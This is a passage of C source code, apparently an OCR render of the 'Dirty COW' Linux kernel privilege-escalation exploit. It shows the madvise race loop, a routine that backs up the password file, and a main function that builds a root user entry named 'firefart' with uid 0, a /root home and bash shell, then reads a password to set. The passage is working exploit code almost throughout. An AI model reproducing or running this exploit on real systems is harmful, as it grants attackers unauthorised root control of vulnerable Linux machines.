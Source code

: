 ```
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
```